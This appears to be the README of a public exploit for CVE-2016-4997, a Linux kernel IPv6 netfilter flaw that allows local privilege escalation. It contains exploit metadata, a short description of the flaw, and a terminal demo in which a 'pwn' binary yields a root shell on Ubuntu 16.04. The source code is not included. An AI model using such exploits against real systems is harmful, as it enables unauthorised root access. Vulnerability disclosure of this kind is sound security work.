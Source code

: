 #Linux kernel <= 4.6.2 - Local Privileges Escalation via IP6T_SO_SET_REPLACE compat setsockopt call
```
Date: 2016.10.8
Exploit Author: Qian Zhang@MarvelTeam Qihoo 360
Version: Linux kernel <= 4.6.2
Tested on: Ubuntu 16.04.1 LTS Linux 4.4.0-21-generic
CVE: CVE-2016-4997
Reference:http://www.openwall.com/lists/oss-security/2016/09/29/10
Contact: tyrande000@gmail.com
```

#DESCRIPTION
The IPv6 netfilter subsystem in the Linux kernel through 4.6.2 does not validate certain offset fields,which allows local users to escalade privileges via an IP6T_SO_SET_REPLACE compat setsockopt call with ip6_tables module loaded.

#DEMO
```
zhang_q@ubuntu:~/ipv6_IP6T_SO_SET_REPLACE$ ls
compile.sh  enjoy  enjoy.c  pwn  pwn.c  version.h
zhang_q@ubuntu:~/ipv6_IP6T_SO_SET_REPLACE$ sudo modprobe ip6_tables
[sudo] password for zhang_q:
zhang_q@ubuntu:~/ipv6_IP6T_SO_SET_REPLACE$ ./pwn
pwn begin, let the bullets fly . . .
and wait for a minute . . .
pwn over, let's enjoy!
preparing payload . . .
trigger modified tty_release . . .
got root, enjoy :)
root@ubuntu:~/ipv6_IP6T_SO_SET_REPLACE#
root@ubuntu:~/ipv6_IP6T_SO_SET_REPLACE# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~/ipv6_IP6T_SO_SET_REPLACE# hostnamectl
   Static hostname: ubuntu
         Icon name: computer-vm
           Chassis: vm
        Machine ID: 355cdf4ce8a048288640c2aa933c018f
    Virtualization: vmware
  Operating System: Ubuntu 16.04.1 LTS
            Kernel: Linux 4.4.0-21-generic
      Architecture: x86-64
root@ubuntu:~/ipv6_IP6T_SO_SET_REPLACE#
```
